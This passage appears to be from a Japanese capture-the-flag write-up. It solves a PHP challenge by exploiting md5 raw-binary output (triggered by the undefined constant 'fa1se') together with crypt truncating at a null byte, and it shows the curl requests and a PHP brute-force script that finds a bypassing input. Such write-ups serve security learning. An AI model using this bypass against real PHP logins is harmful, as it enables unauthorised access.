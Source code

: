 なるほど、第二引数に `TRUE` を渡すと 16 進数形式ではなくバイナリとしてハッシュ値が返ってくるようです。試してみましょう。

```
$ psysh
>>> @bin2hex(md5('test', fa1se))
PHP warning:  Use of undefined constant fa1se - assumed 'fa1se' (this will throw an Error in a future version of PHP) on line 1
=> "098f6bcd4621d373cade4e832627b4f6"
>>> @md5('test', fa1se) === md5('test', TRUE)
PHP warning:  Use of undefined constant fa1se - assumed 'fa1se' (this will throw an Error in a future version of PHP) on line 1
=> true
```

第二引数として `fa1se` を渡した場合には、`TRUE` を渡した場合と同じ挙動をするようです。

`md5` の話は置いておいて、どうやら `hash_equals($hashed, crypt(md5($hopper, fa1se), "asdf"))` が偽になると `echo md5($hopper, false) . "<br />";` と `$hopper` の MD5 ハッシュが得られるようです。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=a'
640011bde142fe749016646d1d64f8c5<br />You didn't know which hopper to use for the injection.
```

`crypt` は[バイナリセーフではありません](https://www.php.net/manual/ja/function.crypt.php)から、`crypt("\x64\x00\x11\xbd\xe1\x42\xfe\x74\x90\x16\x64\x6d\x1d\x64\xf8\xc5", "asdf")` は `crypt("\x64", "asdf")` と同じ結果になるはずです。総当たりで `6400` から始まる MD5 ハッシュになるような文字列を探してみましょう。

```php
<?php
error_reporting(0);

$h = hex2bin('640011bde142fe749016646d1d64f8c5'); // md5($hopper, fa1se)
$h = crypt($h, "asdf");

$i = 0;
while (true) {
  $hashed = crypt(md5($i, fa1se), "asdf");
  if ($hashed === $h) {
    echo $i . "\n";
  }
  $i++;
}
```

```
$ php find.php
47589
```

見つかりました。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=a'
You picked up the wrong paper.
```

次に進むことができました。
